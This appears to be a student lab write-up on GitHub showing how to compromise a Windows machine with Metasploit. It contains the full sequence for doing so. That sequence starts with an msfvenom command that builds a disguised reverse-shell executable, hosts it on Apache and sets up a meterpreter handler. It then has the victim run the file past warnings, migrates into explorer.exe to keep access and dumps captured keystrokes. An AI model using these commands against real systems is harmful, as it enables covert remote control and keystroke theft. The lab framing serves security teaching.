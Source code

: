 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
![image](https://github.com/Subhikshaa13/Compromising-windows-using-Metasploit/assets/118787344/d499f48a-e8d0-40f4-862c-c5cf469e154d)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![image](https://github.com/Subhikshaa13/Compromising-windows-using-Metasploit/assets/118787344/2c48fce9-2041-42b3-9e87-64d1ce5a1b0b)

copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/Subhikshaa13/Compromising-windows-using-Metasploit/assets/118787344/510e50f0-5f60-4b1d-ae53-5cf7129077fe)

Start apache server sudo systemctl apache2 start

![image](https://github.com/Subhikshaa13/Compromising-windows-using-Metasploit/assets/118787344/667a073e-f26c-4896-ad40-c10f3b785abd)

Check the status of apache2

![image](https://github.com/Subhikshaa13/Compromising-windows-using-Metasploit/assets/118787344/498fbf23-2092-4365-8690-694498f18a98)

Invoke msfconsole:

## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/Subhikshaa13/Compromising-windows-using-Metasploit/assets/118787344/cc011855-a441-4e50-928e-f34e067550c7)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/Subhikshaa13/Compromising-windows-using-Metasploit/assets/118787344/08800a00-ea8f-49c4-a0e0-f304ce97d1cb)

Bypass any warning boxes, double-click the file, and allow it to run.

![image](https://github.com/Subhikshaa13/Compromising-windows-using-Metasploit/assets/118787344/1c08dd70-522b-4473-bf34-637cfa1482d2)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/Subhikshaa13/Compromising-windows-using-Metasploit/assets/118787344/d0e9e51f-56d4-4011-a0f7-18d62e2ddf33)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted


![image](https://github.com/Subhikshaa13/Compromising-windows-using-Metasploit/assets/118787344/0894b7e9-782c-4ec1-8e93-08115ff09066)

keyscan_dump Shows the keystrokes captured so far


![image](https://github.com/Subhikshaa13/Compromising-windows-using-Metasploit/assets/118787344/756212f9-9f04-4e37-9335-95f21b11e25d)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

